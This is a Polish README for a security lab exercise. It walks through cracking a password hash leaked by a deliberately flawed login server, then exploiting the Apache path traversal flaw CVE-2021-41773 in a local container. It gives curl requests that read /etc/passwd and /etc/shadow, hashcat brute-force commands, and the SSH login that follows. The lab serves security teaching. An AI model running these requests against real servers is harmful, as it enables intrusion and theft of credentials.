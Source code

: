 # __Przygotowanie Środowiska__
- **[Docker Desktop](https://www.docker.com/products/docker-desktop/)**

Docker to platforma do tworzenia, uruchamiania i zarządzania kontenerami oprogramowania. Kontenery to lekkie, samodzielne jednostki oprogramowania, które zawierają wszystko, czego potrzeba do uruchomienia aplikacji, w tym kod, biblioteki, zależności i pliki konfiguracyjne.

- **[John the Ripper](https://www.openwall.com/john/) | [Hashcat](https://hashcat.net/hashcat/)**

<br><br>

# __Hash od Serwera__

Jest to luka utworzona poprzez zwykły ludzki błąd przy projektowaniu systemu logowania. Serwer zamiast sprawdzać prawidłowość hasła u siebie to sprawdza po stronie klienta, przez co atakujący w łatwy sposób może wykorzystać te informacje by złamać hasło.

## **Zaczynamy**:

1. Należy uruchomić serwer oraz client

    **Uruchamianie Klienta:**
    
    Wejdź do katalogu client a następnie wykonaj poniższe komendy:

        ```
        npm ci
        npm start
        ```

    **Uruchamianie Serwera:*
    
    Wejdź do katalogu server a następnie wykonaj poniższe komendy:
    
        ```
        npm ci
        npm start
        ```

2. Teraz uruchom bazę danych w dokerze za pomocą komendy (należy znajdować się w folderze zawierającym plik "docker-compose.yaml"):
    ```
    docker compose up
    ```
## **Zadanie 1**
Zdobądź hash hasła do użytkownika admin, a następnie złam za pomocą dowolnego narzędzia. Zauważ, że przy próbie logowania na konto danego uzytkowika serwer zwraca ci hash jego hasła. Spróbuj go podglądnąć przy pomocy Burpa czy też innych narzędzi.

<details>
<summary>Rozwązanie</summary>
<br>

Wysyłamy zapytanie z formularza logowania do użytkownika `admin` za pomocą **Burpa** a nastepnie odczytujemy hash hasła z odpowiedzi uzyskanej od serwera.

Uzyskanie hasło próbujemy złamać przy pomocy hashcata

uruchamiamy hashcata

```
hashcat -m 1800 -a3 password ?u?u?u?u
```

Opcja "-m 1800" wskazuje na rodzaj szyfrowania hasła (rodzaj hashu), a w tym przypadku jest to rodzaj hashu SHA-512(Unix). Opcja "-a 3" oznacza, że hashcat będzie używał metody brute-force (przeprowadzenie próby złamania hasła poprzez wypróbowanie wszystkich możliwych kombinacji).

password to plik w którym przechowujemy hash, który będzie przez nas łamany.

Jeśli chodzi o ciąg znaków "?u?u?u?u", to jest to szablon, który określa, jakie hasło będzie szukane [link](https://hashcat.net/wiki/doku.php?id=mask_attack).
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ

Czyli hashcat dla argunetu "?u?u?u?u" wygeneruje wszytskie 4 znakowe możliwości liter "ABCDEFGHIJKLMNOPQRSTUVWXYZ".

Po złamaniu hasła logujemy się na serwer

</details>



<br><br>

# __Path Traversal__

Path Traversal to poważna luka w zabezpieczeniach, która może być wykorzystywana przez hakerów do uzyskania nieautoryzowanego dostępu do systemu lub do wykonania nieautoryzowanych poleceń na zdalnym komputerze.

**<u>Podana luka została znaleziona w serwerze Apache 2.4.49 oraz 2.4.50 i nazwana [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)</u>**

**Apache** to darmowe, otwartoźródłowe i wieloplatformowe oprogramowanie serwera WWW wydane na licencji Apache License 2.0. Oprogramowanie jest utrzymywane i rozwijane przez organizację non profit Apache Software Foundation.

Podatność **Path Travesal** występuje jeśli serwer posiada następującą konfiguracją

```console
<Directory />
Require all granted
</Directory>
```

W tym przypadku ustawienie `Require all granted` oznacza, że wszyscy użytkownicy mają mieć dostęp do plików i katalogów.


<br>
<br>

## **Zaczynamy**:

1. Należy uruchomić kontener komendą

```console
docker run -p 8090:80 -p 22:22 gekonisko/path-traversal
```

Kontener wystawia dwa port

- http[80]: http://localhost:8090
- ssh[22]: agh@localhost

<br>

2. Korzystając z narzędzi curl, postam, burp itp. wyślij następujące zapytanie

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e etc/passwd
```

Serwer powinien zwrócić zawartość pliku `/etc/passwd` zawierający również specjalne konto **agh**

```console
…
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
agh:x:1000:1000:,,,:/home/agh:/bin/bash
```

## **Zadanie 2**

Serwer ma wystawiony również protokół SSH, twoim zadaniem jest zalogowanie się na użytkownika agh przez protokół ssh `ssh agh@localhost`. Wykorzystaj plik `etc/shadow` aby wyciągnąć hasło użytkownika agh.

<details>
<summary>Rozwązanie</summary>

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/shadow
```

wynik:

```console
...
agh:$6$bDdeQMyxkE4l8q5s$iLIB.yf/lxCMGCAdx8yHiW9/av0JM.gCo5vy7aLpUG9Q/KWbD6m3BfxXFCKuyzFd1urcoGePMJ.pVKogH.sAw1:19364:0:99999:7:::
```

zapisujemy hash w pliku

```
echo '$6$bDdeQMyxkE4l8q5s$iLIB.yf/lxCMGCAdx8yHiW9/av0JM.gCo5vy7aLpUG9Q/KWbD6m3BfxXFCKuyzFd1urcoGePMJ.pVKogH.sAw1' > password
```

uruchamiamy hashcata

```
hashcat -m 1800 -a3 password ?u?u?u
```

Opcja "-m 1800" wskazuje na rodzaj szyfrowania hasła (rodzaj hashu), a w tym przypadku jest to rodzaj hashu SHA-512(Unix). Opcja "-a 3" oznacza, że hashcat będzie używał metody brute-force (przeprowadzenie próby złamania hasła poprzez wypróbowanie wszystkich możliwych kombinacji).

password to plik w którym przechowujemy hash, który będzie przez nas łamany

Jeśli chodzi o ciąg znaków "?u?u?u", to jest to szablon, który określa, jakie hasło będzie szukane [link](https://hashcat.net/wiki/doku.php?id=mask_attack).
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ

Po złamaniu hasła logujemy sie na serwer

```
ssh agh@localhost
```

</details>
